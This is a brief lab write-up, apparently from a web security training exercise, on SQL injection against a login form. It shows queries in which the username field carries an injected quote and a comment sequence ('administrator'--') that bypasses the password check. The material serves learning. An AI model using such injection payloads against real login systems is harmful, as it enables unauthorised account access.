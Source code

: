 # Lab 2

## SQL injection - Login functionality

**End Goal**: perform SQLi attack and log in as the administrator user.

**Analysis**

> SELECT * FROM users WHERE  username='admin' AND password='admin'

This causes internal server error

> SELECT * FROM users WHERE  username=''' AND password='admin'

> SELECT * FROM users WHERE  username='admin'--' AND password='admin'

> SELECT * FROM users WHERE  username='administrator'--' AND password='admin'
